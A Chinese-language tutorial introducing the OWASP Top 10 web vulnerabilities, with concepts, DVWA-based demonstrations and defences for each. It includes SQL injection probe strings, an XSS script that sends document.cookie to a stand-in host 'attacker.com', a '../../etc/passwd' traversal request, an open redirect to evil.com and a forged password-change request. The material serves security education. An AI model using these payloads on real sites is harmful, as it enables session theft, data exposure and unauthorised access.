# 漏洞挖掘浅析教程 - 第1课：OWASP Top 10漏洞入门 🛡️

在本节课中，我们将要学习网络安全中最为核心的OWASP Top 10漏洞类型。了解这些基础漏洞是进行有效安全测试和漏洞挖掘的第一步。我们将从概念、成因、演示到防御，系统地介绍这些常见的安全威胁。

## 概述：OWASP Top 10漏洞类型

首先，我们需要了解OWASP（开放Web应用安全项目）总结的10种主要Web应用安全风险。熟悉这些类型，可以帮助我们在测试时更直观地分析和寻找漏洞。





以下是10种主要的漏洞类型：
1.  **注入**
2.  **失效的身份认证和会话管理**
3.  **跨站脚本（XSS）**
4.  **不安全的直接对象引用**
5.  **安全配置错误**
6.  **敏感信息泄露**
7.  **功能级访问控制缺失**
8.  **跨站请求伪造（CSRF）**
9.  **使用含有已知漏洞的组件**
10. **未验证的重定向和转发**

---

## 第一节：注入漏洞 💉

上一节我们概述了十大漏洞，本节中我们来看看第一种也是最常见的漏洞：注入，特别是SQL注入。

### 什么是SQL注入？

SQL注入（简称SQLi）被广泛用于非法获取网站控制权或敏感信息。它是发生在应用程序与数据库交互过程中的漏洞。网站必须连接数据库来存储数据，攻击者可以利用SQL注入漏洞直接获取数据库权限，进而可能渗透内网。

### SQL注入的分类与成因

SQL注入大致分为三种：GET型注入、POST型和Cookie型。其他如盲注、延时注入等都包含在内。

漏洞产生的原因是程序在设计上存在逻辑缺陷，忽略了对用户提交数据或页面请求中夹杂的SQL指令进行过滤。这使得数据库误将恶意指令当作正常SQL命令而执行。攻击者通过绕过防护机制，达到执行恶意SQL的效果，从而导致数据被窃取、更改或删除，甚至危及整个服务器。

### SQL注入演示

我们使用DVWA（Damn Vulnerable Web Application）漏洞平台进行演示。



1.  首先登录DVWA平台，将安全级别设置为“Low”。
2.  在SQL注入测试页面，常规的第一步是提交一个单引号 `‘`，如果数据库报错，则说明可能存在注入点。
    ```sql
    ' 
    ```
3.  通过 `ORDER BY` 语句来猜测查询的字段数，例如：
    ```sql
    1‘ ORDER BY 1 -- 
    ```
    逐渐增加数字，直到页面返回错误，即可确定字段数。
4.  确定字段数后，可以使用 `UNION SELECT` 语句来联合查询，获取数据库信息，如版本、当前用户等。
    ```sql
    1‘ UNION SELECT 1, version() -- 
    ```



### 源代码分析与防御

查看存在漏洞的源代码，通常是因为未过滤的用户输入被直接拼接到了SQL语句中：
```php
$id = $_GET[‘id‘];
$query = “SELECT first_name, last_name FROM users WHERE user_id = ‘$id‘;“;
```

防御SQL注入的方法包括：
*   **输入校验与过滤**：对用户提交的所有数据进行严格检查。
*   **使用参数化查询（预编译语句）**：这是最有效的防御手段，确保数据不会被解释为代码。
    ```php
    $stmt = $pdo->prepare(‘SELECT * FROM users WHERE email = ? AND status=?‘);
    $stmt->execute([$email, $status]);
    ```
*   **使用存储过程**。
*   **对输出进行转义**。
*   **采用白名单验证**。

---

## 第二节：失效的身份认证和会话管理 🔑

在了解了注入攻击后，我们来看另一个常见风险：失效的身份认证和会话管理。

### 什么是身份认证与会话管理？

身份认证最常见的形式是提交用户名和密码登录。更高安全性的措施包括防止暴力破解的验证码、密码复杂度要求、使用HTTPS加密传输等。会话管理则涉及登录后如何保持用户状态，通常使用Cookie或Session。

### 常见的漏洞点

该漏洞常出现在以下方面：
1.  **凭证修改时不验证用户身份，只验证会话IP**：攻击者可能通过伪造IP绕过验证。
2.  **会话没有超时限制**：用户离开后，会话仍长期有效，可能导致被他人冒用。
3.  **密码找回功能过于简单**：仅通过邮箱或简单验证码即可重置密码，缺乏多因素验证。
4.  **敏感信息（如用户名密码）直接暴露在URL或Cookie中**：在测试中，需要仔细检查每个请求包，敏感信息不应明文传输。

### 漏洞演示



例如，一个简单的登录页面可能将用户名直接写入Cookie：
```http
Set-Cookie: username=admin
```
攻击者通过抓包修改这个Cookie值，就可能实现越权访问。

防御措施包括：实施安全的会话超时、使用强加密的令牌（Token）、对敏感操作进行多因素认证、确保密码安全存储与传输。



---





## 第三节：跨站脚本（XSS） 🎯

接下来，我们探讨另一种客户端漏洞：跨站脚本。

### 什么是XSS？

XSS发生在当Web应用将用户提交的不可信数据，在没有经过适当验证或转义的情况下，发送回浏览器并被执行时。攻击者利用此漏洞可以注入恶意脚本，当其他用户访问页面时，脚本就会在其浏览器中执行。

### XSS的分类

XSS主要分为三类：
*   **反射型XSS**：非持久化，恶意脚本来自当前HTTP请求，通常通过诱骗用户点击特制链接触发。
*   **存储型XSS**：持久化，恶意脚本被保存到服务器（如数据库），当其他用户访问受影响页面时自动执行，危害更大。
*   **DOM型XSS**：漏洞位于客户端JavaScript代码中，通过修改页面的DOM树来执行恶意脚本，较难检测和防御。

### XSS攻击演示与平台

我们可以使用专门的XSS平台来接收被窃取的Cookie等信息。攻击者构造一个包含恶意脚本的URL或表单，当管理员访问时，其Cookie会被发送到攻击者的平台。
```javascript
<script>document.location=‘http://attacker.com/steal?cookie=‘+document.cookie</script>
```
对于存储型XSS，脚本被存入数据库（如留言板），任何访问该页面的用户都会中招。

### 如何防御XSS？

防御XSS的核心原则是：**不要信任用户的任何输入**。
*   **对输入进行过滤和转义**：例如，将 `<` 转义为 `&lt;`。
*   **使用安全的输出函数**：在输出到HTML时使用相关编码函数。
*   **设置HTTP头部 `Content-Security-Policy (CSP)`**：限制页面可以加载和执行脚本的来源，这是非常有效的缓解措施。
*   **对Cookie设置 `HttpOnly` 属性**：防止JavaScript访问Cookie，能有效降低Cookie被盗的风险。

---

## 第四节：不安全的直接对象引用 🔓

本节我们关注一种因缺乏访问控制而导致的漏洞：不安全的直接对象引用。

### 漏洞原理

当应用程序在URL或表单参数中直接使用数据库键、文件名或目录等内部对象标识符时，就可能产生此漏洞。如果程序没有每次都对用户访问该目标的权限进行验证，攻击者就可以通过修改参数值来访问未授权的数据。



例如：
```http
https://example.com/showuser?uid=123
```
攻击者将 `uid` 参数改为 `124`，就可能看到其他用户的敏感信息。



### 漏洞案例：文件包含



该漏洞常与文件包含漏洞结合。通过修改参数，攻击者可以读取服务器上的敏感文件。
```http
https://vulnerable.com/page?file=../../etc/passwd
```
这可能导致系统配置文件、数据库连接信息等敏感数据泄露。



防御方法：避免直接暴露内部对象标识符；使用间接引用映射（如随机令牌）；对每一次访问实施严格的权限检查。

---

## 第五节：安全配置错误 ⚙️



配置是安全的基础，错误的配置会敞开大门。



### 什么是安全配置错误？

指由于不当的安全配置，导致攻击者可以未授权访问应用程序配置文件、系统数据或管理后台。这涉及各个层面，包括Web服务器、应用服务器、数据库、框架等。

### 常见错误与危害

*   **目录遍历**：允许浏览服务器目录结构。
*   **默认账户密码未修改**：使用广为人知的默认凭证。
*   **启用不必要的服务或端口**：扩大攻击面。
*   **错误的错误处理机制**：向用户暴露详细的堆栈跟踪、服务器版本等敏感信息。
*   **使用不安全的HTTP协议**：传输过程未加密。

### 信息收集与利用

攻击者常利用这些错误进行信息收集。例如，访问一个不存在的页面可能触发错误，从而泄露服务器类型、版本、路径等信息。这些信息对于后续发起针对性攻击至关重要。

防御措施：遵循最小权限原则；定期更新和打补丁；自动化扫描配置；移除不必要的功能、页面和账户；自定义错误页面，避免信息泄露。




---

## 第六节：敏感信息泄露 📄

在互联网上，信息泄露几乎无处不在，我们需要识别哪些是敏感信息。

### 什么是敏感信息？

指不为公众所知悉、具有实际或潜在利用价值的信息。一旦泄露，可能被用于电信诈骗、身份冒用等犯罪活动。对攻击者而言，敏感信息是发起进一步攻击的“弹药”。

### 敏感信息的类型

1.  **个人身份信息**：姓名、身份证号、电话、银行账号等。
2.  **认证凭证**：网站的用户名密码、会话Cookie、API密钥等。
3.  **系统信息**：Web服务器类型与版本、操作系统信息、使用的开源软件及版本号。
4.  **业务数据**：未公开的客户资料、交易记录、源代码等。

### 漏洞挖掘中的利用

在漏洞挖掘前期，信息收集至关重要。通过搜索引擎（如Google Hacking）查找敏感目录、配置文件，或从GitHub等代码托管平台寻找泄露的源码、密钥，都可能成为突破点。

防御措施：对敏感数据加密存储和传输；最小化数据收集；严格访问控制；防止调试信息泄露；对员工进行安全意识培训。

---

## 第七节：功能级访问控制缺失 🚫

本漏洞关注的是应用程序在功能级别上未能正确实施访问控制。

### 漏洞原理

应用程序未能对用户访问某些页面或功能的请求进行正确的权限验证。这通常是由于配置管理不当，例如，通过URL就能直接访问本应需要特定权限的功能。

例如，普通用户通过以下URL可能直接访问到管理员功能：
```http
https://example.com/admin/addUser
```
或者，应用程序在更新后，旧的功能接口未被正确禁用或保护。

### 案例

在测试中，可能发现某个办公系统，通过枚举用户ID参数，可以直接返回相应用户的姓名、部门等完整信息，而无需任何权限验证。这属于严重的功能级访问控制缺失，也导致了敏感信息泄露。

防御措施：实施基于角色/权限的访问控制（RBAC）；默认拒绝所有访问，显式允许授权访问；在服务端对每个功能请求进行权限校验，不要依赖客户端控制。

---

## 第八节：跨站请求伪造（CSRF） 🎣

CSRF是一种利用用户已登录状态发起的攻击。

### 什么是CSRF？

攻击者诱使受害者在不知情的情况下，向目标网站发送一个恶意请求。由于浏览器会自动携带用户的Cookie等认证信息，该请求会被网站认为是用户的合法操作，从而执行诸如修改密码、转账等敏感操作。

### CSRF与XSS的区别

*   **XSS**：利用用户对网站的信任，在受害者浏览器中执行脚本，窃取信息或操作客户端。
*   **CSRF**：利用网站对用户浏览器的信任，让浏览器发起一个非预期的请求，以用户身份执行操作。

### 攻击演示

假设一个修改密码的请求如下：
```http
POST /changePassword HTTP/1.1
...
newPassword=attackerPassword
```
攻击者可以构造一个包含该请求的恶意页面或链接，诱骗已登录的管理员访问，从而悄无声息地修改其密码。

### 如何防御CSRF？

*   **使用CSRF Token**：在表单或请求中加入一个随机的、不可预测的Token，服务端进行验证。这是最主流的方法。
*   **检查Referer/Origin头部**：验证请求来源是否合法。
*   **关键操作使用二次认证**：如短信验证码、重新输入密码。
*   **敏感操作使用POST请求**：增加攻击难度。

---

## 第九节：使用含有已知漏洞的组件 ⚠️

现代应用大量使用第三方组件，这带来了潜在风险。

### 漏洞原理

许多应用使用已知的开源框架、库、插件（例如Struts2, Spring, WordPress插件等）。如果这些组件存在已知漏洞且未及时更新，攻击者就可以利用这些漏洞直接攻击应用，危害可能从信息泄露到服务器完全沦陷。

### 扫描与利用

攻击者可以通过分析网站响应头、错误信息、文件路径等，识别出使用的组件及其版本。然后，寻找公开的漏洞利用代码（Exp/PoC）进行攻击。例如，著名的Apache Struts2系列漏洞。





防御措施：建立软件资产清单；定期使用工具扫描依赖组件；订阅安全公告，及时更新和打补丁；移除不必要的依赖。

---



## 第十节：未验证的重定向和转发 ➡️

最后一种风险涉及应用程序的跳转逻辑。

### 重定向 vs. 转发

*   **重定向**：服务器返回一个指令，让浏览器去请求另一个URL。参数可控可能导致钓鱼。
    ```http
    https://trustedsite.com/redirect?url=http://evil.com
    ```
*   **转发**：服务器内部将请求转发给另一个资源，用户浏览器地址不变。参数可控可能导致越权访问内部功能。

### 漏洞利用

攻击者可以构造一个受信任网站的重定向链接，将其中的目标地址改为恶意网站，用于网络钓鱼。或者，通过修改转发参数，访问未授权的内部页面。

防御措施：避免使用用户可控参数来定义重定向目标；如果必须使用，则严格校验目标URL是否在白名单内；对于转发，同样要进行权限验证。

---

## 总结与漏洞挖掘思维 🧠

本节课中我们一起学习了OWASP Top 10的十大Web安全漏洞。从注入、身份认证问题到配置错误、逻辑漏洞，每一种都有其独特的原理和利用方式。

漏洞挖掘不仅仅是技术工具的堆砌，更重要的是**分析思维**和**耐心**。就像挖井，浅尝辄止很难发现深层的宝藏。在测试中，需要细心分析每一个HTTP请求和响应，思考参数的含义、逻辑的流程。常见的逻辑漏洞（如验证码回显、短信轰炸、ID枚举、越权访问等）往往都源于对上述十大基础漏洞原理的深入理解和灵活组合应用。






真正的漏洞挖掘高手，属于那些持之以恒、善于观察和思考的人。希望本教程能为你打下坚实的基础，在安全道路上不断探索前行。